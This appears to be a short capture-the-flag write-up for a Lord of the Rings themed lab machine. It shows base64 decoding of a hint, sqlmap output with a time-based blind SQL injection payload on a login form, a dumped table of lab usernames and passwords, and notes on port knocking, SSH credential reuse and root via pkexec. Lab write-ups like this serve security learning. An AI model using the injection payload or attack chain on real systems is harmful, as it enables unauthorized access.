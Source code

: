 ```

```

```
└─# hURL -b "THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh"
Original string       :: THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh   
base64 DEcoded string :: Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!
```

```
└─# hURL -b Lzk3ODM0NTIxMC9pbmRleC5waHA=        
Original string       :: Lzk3ODM0NTIxMC9pbmRleC5waHA=                       
base64 DEcoded string :: /978345210/index.php
```

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=pwn' AND (SELECT 6332 FROM (SELECT(SLEEP(5)))hZoQ)-- jltt&password=pwn&submit= Login
---

```

```
+----------+------------------+
| username | password         |
+----------+------------------+
| gimli    | AndMyAxe         |
| legolas  | AndMyBow         |
| aragorn  | AndMySword       |
| frodo    | iwilltakethering |
| smeagol  | MyPreciousR00t   |
+----------+------------------+
```

# Kernel Info:

\[+\] file /bin/bash

\[+\] lsb_release -a

\[+\] uname -a

# Exploits and Payloads:

\[+\] Only port 22 (SSH) open. Check it. Inidicates a portknocking operation. 1,2,3. Opens port 1337, Webserver (HTTP) Apache.
\[+\] Login page. Bypass with mysql. Grab all the credentials from Webapp database. Try it on SSH.
\[+\] Logged in to SSH. Realized pkexec was present. Root the box. badabing.

